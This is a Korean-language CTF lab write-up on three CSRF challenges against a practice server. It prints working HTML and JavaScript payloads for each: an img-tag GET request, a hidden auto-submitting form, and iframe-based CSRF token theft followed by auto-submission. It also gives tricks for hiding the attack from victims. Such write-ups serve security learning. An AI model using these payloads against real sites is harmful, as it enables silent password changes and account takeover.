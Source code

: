 ```yaml
---
title: "CSRF"
date: 2025-07-10
layout: single
toc: true
toc_label: "CSRF"
toc_icon: "book"
toc_sticky: true
tags: [web, csrf, hacking]
header:
  teaser: /assets/images/csrf.png
---
```


# 개요

이 페이지는 웹 애플리케이션 내 Cross-Site Request Forgery (CSRF) 취약점을 이용하는 실습 기록입니다.

공격자의 관점으로 피해자의 브라우저를 통해 의도하지 않은 요청이 전송되도록 악성 요청을 구성하며, 이를 통해 계정 설정 변경, 비밀번호 변경 등의 동작을 수행할 수 있습니다.

---

# 실습 내용 정리

## CSRF 1

해당 기능은 사용자 정보를 변경하는 요청을 **HTTP GET 방식으로도 처리하고 있으며**, `CSRF Token`이나 `Referer` 검증 없이 파라미터만으로 사용자의 정보를 변경할 수 있어 외부 요청에 취약한 구조를 가진다.

![CSRF1 burp suite](/assets/screenshots/csrf/csrf1_burp_suite.png)

공격자는 게시판 기능을 이용해 다음과 같이 **사회공학적 미끼 제목**과 함께 CSRF 공격용 이미지를 삽입하였다.

**페이로드:**

```html
<img src="http://ctf.segfaulthub.com:7575/csrf_1/mypage_update.php?id=&info=&pw=1234">
```

![CSRF1 post](/assets/screenshots/csrf/csrf1_post.png)

 
사용자는 일반 게시글처럼 보여 클릭 유도

![CSRF1 list](/assets/screenshots/csrf/csrf1_list.png)

관리자가 로그인된 상태로 해당 게시글을 조회할 경우,  
**삽입된 이미지 태그를 통해 자동으로 GET 요청이 전송되며, 사용자의 비밀번호가 공격자가 지정한 값으로 변경된다**.

---

## CSRF 2

해당 기능은 POST 요청으로 사용자 정보를 변경하는 API를 제공하고 있으나, 서버는 `CSRF Token` 검증 또는 `Referer` 검증 없이 요청을 처리한다.

이로 인해 공격자가 외부 HTML 문서 내에 자동으로 전송되는 `form`을 작성할 경우, 피해자의 세션을 이용한 비밀번호 변경이 가능하다.

![CSRF2 burp suite](/assets/screenshots/csrf/csrf2_burp_suite.png)

요청 파라미터 중 `id` 값을 빈 문자열(`""`)로 설정하더라도,  
서버는 이를 별도 검증 없이 **현재 로그인된 사용자 세션 기준으로 자동 대체 처리**하는 구조를 가지고 있다.


![CSRF2 post](/assets/screenshots/csrf/csrf2_post.png)

**페이로드:**

```html
<iframe name="frame" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>

<form action="http://ctf.segfaulthub.com:7575/csrf_2/mypage_update.php" method="POST" target="frame">
  <input type="hidden" name="id" value="">
  <input type="hidden" name="info" value="">
  <input type="hidden" name="pw" value="12345">
</form>

<script>
  document.forms[0].submit();
</script>
```

이로 인해 공격자는 사용자의 ID를 몰라도, 단순히 게시글을 열게 만드는 것만으로 **그 사용자의 비밀번호를 변경시킬 수 있으며**,

같은 게시글을 여러 사용자가 열 경우, 
**각각 자신의 계정 기준으로 비밀번호가 바뀌는 광범위한 피해가 발생할 수 있다.**

또한 공격자는 `<iframe>`에 `sandbox="allow-forms allow-same-origin"` 옵션을 설정함으로써,  
폼 전송은 허용하면서도 서버 응답 내 JavaScript(alert 등)를 실행하지 않도록 설정 한다.

따라서 피해자는 **회원 정보 수정에 성공하셨습니다!** 와 같은 안내 알림이 나타나지 않아,  
**비밀번호가 변경되었음에도 공격 사실을 인지하지 못한 채 CSRF 공격에 노출된다.**

---

## CSRF 3
 
해당 기능은 CSRF Token이 적용되어 있지만, `mypage.php` 페이지를 통해 토큰 값을 클라이언트에 노출시키는 구조이며, 서버는 전달된 토큰 값의 유효성만 검증한 뒤 사용자 정보를 수정한다.

공격자는 이를 악용하여 다음과 같이 **토큰 값을 사전에 iframe을 통해 추출 후**, 해당 값을 포함한 POST 요청을 자동으로 생성하여 사용자의 정보(비밀번호 등)를 변경할 수 있다.


![CSRF3 burp suite](/assets/screenshots/csrf/csrf3_burp_suite.png)

공격자는 다음과 같은 구조의 HTML을 게시글에 삽입하여, **사용자가 게시글을 열었을 때 자동으로 토큰 추출 → 정보 변경이 발생하도록 구성**한다.

**페이로드:**

```html
<iframe src="http://ctf.segfaulthub.com:7575/csrf_3/mypage.php?user=user101" id="frame1" style="display:none"></iframe>
<iframe name="frame2" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>
<form action="http://ctf.segfaulthub.com:7575/csrf_3/mypage_update.php" method="POST" target="frame2" style="display:none">
<input name="id" value="">
<input name="info" value="">
<input name="pw" value="123">
<input name="csrf_token" value="">
</form>

<script>
    window.onload = function () {
        const html_frame = document.getElementById("frame1").contentWindow.document;
        const token = html_frame.querySelector('input[name="csrf_token"]').value;
        document.querySelector('input[name="csrf_token"]').value = token;
        document.forms[0].submit();
    }
</script>
```

![CSRF3 post](/assets/screenshots/csrf/csrf3_post.png)

공격자 페이지에는 시각적으로 아무 것도 표시되지 않으며,
`form`, `iframe` 모두 `display:none` 처리되어 사용자는 공격 사실을 인지할 수 없다.

- 클라이언트 측에서 CSRF Token이 노출되는 구조에서는, 공격자가 `iframe` 등을 이용해 이를 추출하고 자동 요청을 구성함으로써 **Token 기반 방어 로직 또한 우회할 수 있다.**